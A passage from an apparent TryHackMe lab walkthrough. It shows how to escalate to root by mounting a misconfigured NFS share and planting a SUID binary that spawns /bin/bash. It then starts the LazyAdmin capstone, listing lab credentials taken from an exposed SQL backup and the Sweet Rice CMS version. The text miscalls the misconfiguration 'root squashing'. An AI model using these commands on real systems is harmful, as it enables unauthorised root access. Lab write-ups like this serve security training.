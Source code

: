 From the attacker’s machine, you can list the shared folders using:

```bash
showmount -e [IP]
```

![Root Access](./Image/59.png)

Next, mount the shared folder with the following commands:

```bash
mkdir /tmp/mount
mount -o rw,vers=2 10.10.158.65:/tmp /tmp/mount
```

Once mounted, you can compile and set permissions on a new executable:

```bash
echo 'int main() { setgid(0); setuid(0); system("/bin/bash"); return 0;}' > /tmp/mount/x.c
gcc /tmp/mount/x.c -o /tmp/mount/x
chmod +s /tmp/mount/x
```

Finally, execute the compiled binary on the victim’s machine to obtain a root shell:

```bash
/tmp/x
```

This method leverages NFS root squashing to escalate privileges.

# Capstone Challenge

## 1

Link: https://tryhackme.com/r/room/lazyadmin

Found USER:PASS for http://10.10.169.27/content/as/index.php

Found here: http://10.10.169.27/content/inc/mysql_backup/mysql_bakup_20191129023059-1.5.1.sql

```bash
manager:Password123
```

![Root Access](./Image/60.png)

Version of Sweet Rice CMS found here: http://10.10.169.27/content/inc/lastest.txt

```bash
1.5.1
```
